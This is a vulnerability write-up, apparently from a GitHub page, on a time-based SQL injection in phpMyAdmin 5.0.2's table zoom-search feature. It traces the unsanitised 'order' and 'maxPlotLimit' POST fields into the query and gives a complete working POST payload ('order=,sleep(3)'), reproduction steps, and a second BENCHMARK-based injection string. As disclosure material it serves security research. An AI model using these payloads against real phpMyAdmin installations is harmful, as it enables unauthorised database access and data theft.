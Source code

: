 ```yaml
---
layout:     post
title:      "test - test"
subtitle:   "test & test"
date:       2021-04-19 11:00:00
author:     "b0ldfrev"
catalog: true
tags:
    - Pwn
    - iot
 
---
```


#Describe
The  enterpoint  of vulnerability  is `tbl_zoom_select.php`


You can see the last time is about  7s
![Verification](./img/time.png)

the data:
![Verification](./img/payload.png)



There are three pieces of data in the table,if I add the sleep(2), the last time will more then 6s

![timereason](./img/data.png)

#details


due to `$_POST['order'] ` add to `$sql_query ` directly
![sourcereason](./img/reason2.png)


and final sql command is:
``SELECT *  FROM `oc_accounts` ORDER BY `uid` ,sleep(3) LIMIT 500``

![finalsql](./img/finalcmd.png)

####page:
`phpMyAdmin502/tbl_zoom_select.php`
####function:
```
/** @var SearchController $controller */
$controller = $containerBuilder->get(SearchController::class);
$controller->indexAction();
```

####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`indexAction()`
need to satisfies the conditions described below
in post data, we can use `criteriaColumnNames[0]=uid`  to insteal `criteriaColumnNames[]=uid` if you like
![limit1](./img/limit1.png)
and then  ` $this->zoomSubmitAction($dataLabel, $goto);`


####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`zoomSubmitAction($dataLabel, $goto)`
![finalsql](./img/finalcmd.png)
and then `$sql_query = $this->_buildSqlQuery();`


####page:
`phpMyAdmin502/libraries/classes/Controllers/Table/SearchController.php`
####funtion:
`_buildSqlQuery()`
![sourcereason](./img/reason.png)
here  we can  send th data to satisfies the conditions described below and give the sql injection










####mytest
url:
`http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_zoom_select.php`
post data:

`db=nextcloud&table=oc_accounts&token=3b6e3a5c3c5a6b4b4e455e376e575a69&goto=&back=tbl_zoom_select.php&criteriaColumnNames[]=uid&criteriaColumnOperators[0]=LIKE&criteriaValues[0]=&criteriaColumnTypes[0]=varchar(64)&criteriaColumnCollations[0]=&criteriaColumnNames[]=data&criteriaColumnOperators[1]=LIKE&criteriaValues[1]=&criteriaColumnTypes[1]=longtext&criteriaColumnCollations[1]=&criteriaColumnNames[]=pma_null&criteriaColumnTypes[2]=&criteriaColumnCollations[2]=&criteriaColumnNames[]=pma_null&criteriaColumnTypes[3]=&criteriaColumnCollations[3]=&dataLabel=uid&maxPlotLimit=500&zoom_submit=执行&zoom_submit=执行&orderByColumn=uid&order=,sleep(3)`

#Test
1. login first
2. choise a table and then click the search(`my url http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_select.php?db=nextcloud&table=oc_accounts`)
![step](./img/step2.png)

3. click the the place I where selected (`my url http://127.0.0.1:8888/cms/phpMyAdmin502/tbl_zoom_select.php?db=nextcloud&table=oc_accounts`)
![step](./img/step3.png)
4. add the key world,and make sure they are different,here is very important!,and sumbmit,get the post data
![step](./img/step4.png)
5. add `&orderByColumn=uid&order=,sleep(3)` to the post data ,here I use the `orderByColumn=uid`, in fact use the key word which in step4 (here is uid or data)  we choise is ok,and order is our sql injection command

if sleep(3) is effective, we can use other sql command to other things

in fact 
![finalsql](./img/finalcmd.png)
here `$sql_query .= ' LIMIT ' . $_POST['maxPlotLimit'];`
`$_POST['maxPlotLimit']` add to limit directly,if mysql version between 5.0.0-5.6.6 still has sql injection  possible
example sql inj cmd:`select * from xx where id=1 limit 1,500 procedure analyse(extractvalue(rand(),concat(0x3a,BENCHMARK(5000000,SHA1(1)))),1);;`


